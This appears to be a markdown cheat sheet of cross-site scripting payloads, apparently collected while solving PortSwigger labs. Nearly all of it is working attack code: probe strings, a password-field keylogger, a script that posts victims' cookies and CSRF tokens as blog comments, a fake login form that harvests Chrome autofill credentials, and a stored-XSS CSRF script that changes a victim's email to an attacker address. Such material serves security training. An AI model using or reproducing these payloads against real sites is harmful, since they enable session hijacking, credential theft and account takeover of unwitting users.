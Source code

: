 
```html
"><h1>test</h1>
```

```html
'+alert(1)+
'```

```html
"onmouseover="alert(1)
```

```
http://"onmouseover="alert(1)
```  
___
Keylogger

```javascript
t=""; $('input[type="password"]').onkeypress = function (e) { t+=e.key; console.log(t); localStorage.setItem("pw", t); } 
```
___
Fetch users' cookies and post them on a blogpost (PortSwigger)
```html
<script>
document.body.onload = function() {
    // GET COOKIES
    var cookies = document.cookie;
    // GET CSRF TOKEN FROM HTML
    var csrf = document.getElementsByName("csrf")[0].defaultValue;
    // GET DOMAIN
    var domain = document.domain;
    // STORE VALUES NEEDED TO POST THE SCRIPT
    var details = {
        'csrf': csrf,
        'postId': 2,
        'comment': cookies,
        'name': 'victim',
        'email': 'victim@victim',
        'website': 'http://hack'
    };
    // PREPARE AN EMPTY ARRAY WHICH WILL BE FILLED WITH ENCODED VALUES FROM details
    var formBody = [];
    // ENCODED IN TURN EACH KEY/VALUE PAIR FROM DICTIONARY details
    for (var property in details) {
        var encodedKey = encodeURIComponent(property);
        var encodedValue = encodeURIComponent(details[property]);
        // ADD EACH PAIR TO THE ARRAY AND "JOIN" KEYS AND VALUES IN A STRING CONCATENATION
        formBody.push(encodedKey + "=" + encodedValue);
    }
    // CONCAT ARRAY VALUES WITH & CHAR
    formBody = formBody.join("&");
    // POST THE COMMENT
    fetch("https://"+domain+"/post/comment", {
        method: "POST",
        headers: {
            'Content-Type': 'application/x-www-form-urlencoded'
        },
        body: formBody
    });
}
</script>
```
___

Capture autofill credentials (chrome) (PortSwigger XSS Lab)

```html
<section>
    <form class=login-form method=POST action=/login>
        <label>Username</label>
            <input required type=username name="username" id="user2hack">
        <label>Password</label>
            <input required type=password name="password" id="psw2hack">
            <button class=button type=submit> Log in </button>
    </form>
</section>


<script>
// FUNCTION TO GRAB USERNAME AND PASSWORD INPUT FIELDS VALUES
function grabUserPsw(){
    var username = document.getElementById("user2hack").value;
    var password = document.getElementById("psw2hack").value;
// RETURN VALUES AS ARRAY
    return [username, password]
};

// FUNCTION TO POST CREDENTIALS AS COMMENT ON ANOTHER PAGE postId=2
function postCreds(){
// EXECUTE grabUserPsw FUNCTION
    var creds = grabUserPsw();
    var username = creds[0];
    var password = creds[1];
    var credentials = "username:" + username + " - password:" + password;
    var domain = document.domain;
    var csrf = document.getElementsByName("csrf")[0].defaultValue;
    var details = {
        "csrf" : csrf,
        "postId" : 2,
        "comment" : credentials,
        "name" : "victim",
        "email" : "test@test.test",
        "website" : "http://victim"
    };
// PREPARE FORMDATA ARRAY WITH URL ENCODED VALUES AND CONCAT THEM BY CHAR '&'
    formBody = [];
    for (property in details){
        var encodedKey = encodeURIComponent(property);
        var encodedValue = encodeURIComponent(details[property]);
        formBody.push(encodedKey + "=" + encodedValue)
    };
    formBody = formBody.join("&");

    fetch("https://"+domain+"/post/comment", {
        method : "POST",
        headers : {
            "Content-Type": "application/x-www-form-urlencoded"
        },
        body : formBody
    });
};
// WAIT FOT DOM DOCUMENT TO BE LOADED AND ATTACH 'onChange' EVENT TO THE PASSWORD INPUT FIELD
// CHROME AUTOFILL TAKES EFFECT ONLY AFTER A USER INTERACTION IN THE WINDOW (CLICK, KEYPRESS...)
document.body.onload = function(e){
    document.getElementById("psw2hack").addEventListener("change", function(e){
        postCreds();
    });
// FORCE MOUSE CLICK ON USERNAME INPUT FIELD TO TRIGGER THE LISTENER ABOVE
    document.getElementById("user2hack").click()
}
</script>
```

_______

Perform a Cross-Site Request Forgery attacks via Stored XSS to change email fo another user (PortSwigger Lab)

```html
    <script>
    function parseText(text){
        // PREPARE PATTERN FOR CSRF TOKEN EXTRACTION
        const re = new RegExp(/value="([A-Z,a-z,0-9]+)"/);
        // LOOK FOR CSRF TOKEN
        const csrfArray = re.exec(text);
        var csrf = csrfArray[1];
        return csrf
    };

    function grabCsrf(url){
        // MAKE HTTP GET REQUEST FOR MYACCOUNT_URL
        req = new XMLHttpRequest;
        req.open("GET", url, false);
        req.send();
        const text = req.responseText;
        // PASS THE TEXT OUTPUT OF THE BODY TO THE parseText() FUNCTION
        csrf = parseText(text);
        return csrf
    };

    function changeEmail(){
        // VARIABLES DECLARATION
        var domain = document.domain;
        var domain_url = 'https://'+domain;
        var changeEmail_url = domain_url + '/my-account/change-email';
        var myAccount_url = domain_url + '/my-account';

        // GRAB AND STORE THE CSRF TOKEN
        const csrf = grabCsrf(myAccount_url)

        // CREATE VARIABLES TO SEND ALONG THE REQUEST TO CHANGE EMAIL
        var params = {
            'email' : 'youvebeenhacked@attacker.hack',
            'csrf' : csrf
        };

        var formBody = [];
        // URL ENCODING
        for (property in params) {
            var encodedKey = encodeURIComponent(property);
            var encodedValue = encodeURIComponent(params[property]);
            formBody.push(encodedKey + "=" + encodedValue)
        };
        formBody = formBody.join("&");

        fetch(changeEmail_url, {
            method : 'POST',
            headers : {
                'Content-Type': 'application/x-www-form-urlencoded'
            },
            body : formBody
        });
    };

document.body.onload = changeEmail()
</script>
```
